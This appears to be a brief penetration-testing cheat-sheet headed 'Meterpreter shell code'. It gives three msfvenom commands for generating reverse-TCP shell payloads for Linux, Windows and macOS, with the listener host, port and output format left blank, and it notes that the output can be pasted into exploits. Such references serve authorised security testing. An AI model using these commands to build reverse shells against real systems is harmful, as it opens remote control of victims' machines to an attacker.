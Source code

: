 # **Meterpreter shell code**

**

## Shellcode

**

##   
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.  
  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f  
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f  
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f